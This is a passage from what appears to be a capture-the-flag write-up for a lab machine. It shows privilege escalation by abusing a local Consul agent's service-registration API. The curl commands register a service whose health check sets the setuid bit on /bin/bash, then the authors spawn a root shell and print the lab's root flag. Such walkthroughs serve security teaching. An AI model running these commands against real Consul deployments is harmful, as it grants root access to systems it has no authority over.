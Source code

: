 Because of that we looked for `misconfigurations` and `service abuse`.

- [https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)
- [https://developer.hashicorp.com/consul/api-docs](https://developer.hashicorp.com/consul/api-docs)

After reading the `API documentation` we tried to `register` a `service` and it worked!

```c
┌──(kali㉿kali)-[~]
└─$ curl -X PUT http://127.0.0.1:8500/v1/agent/service/register -d '{
    "Name": "malicious_service",
    "Address": "127.0.0.1",
    "Port": 4444
}'
```

As next step we tried to make it malicious and `execute commands`. Therefore we configured a `check` on the `service` and provided the `arguments` we wanted to be executed by the `API`, every `10 seconds`.

```c
┌──(kali㉿kali)-[~]
└─$ curl -X PUT http://127.0.0.1:8500/v1/agent/service/register -d '{
    "Name": "malicious_service",
    "Address": "127.0.0.1",
    "Port": 1234,
    "Check": {
        "Args": ["chmod", "u+s", "/bin/bash"],
        "Interval": "10s"
    }
}'
```

And this opened us the way to `root` and to the `root.txt`.

```c
ron@heal:/etc/consul.d$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```c
ron@heal:/etc/consul.d$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat /root/root.txt
e5572f71e30da265809b18a5bea70692
```
